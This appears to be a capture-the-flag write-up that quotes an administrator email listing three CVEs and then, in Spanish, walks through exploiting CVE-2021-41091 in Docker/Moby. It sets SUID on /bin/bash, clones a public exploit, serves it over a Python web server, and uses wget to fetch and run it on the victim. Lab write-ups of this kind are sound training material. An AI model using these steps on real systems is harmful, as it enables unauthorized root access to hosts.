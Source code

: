 Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team

---
Investigamos las 3 vulnerabilidades pero la única que nos llama la atención es el CVE-2021-41091.

Encontramos un [exploit](https://github.com/UncleJ4ck/CVE-2021-41091) en github, si leemos la documentación vemos que es necesario asignarle el permiso SUID a la /bin/bash del contenedor, donde ya somos root por lo que hacemos:
```bash
chmod u+s /bin/bash
`````

Nos clonamos el repositorio en nuestra máquina:
```bash
git clone https://github.com/UncleJ4ck/CVE-2021-41091
`````

Nos montamos un servidor web con python:
```bash
python3 -m http.server
`````

Con wget lo descargamos desde la máquina víctima y lo ejecutamos:
```bash
wget http://<ip>/exp.sh
chmod +x exp.sh
./exp.sh
`````
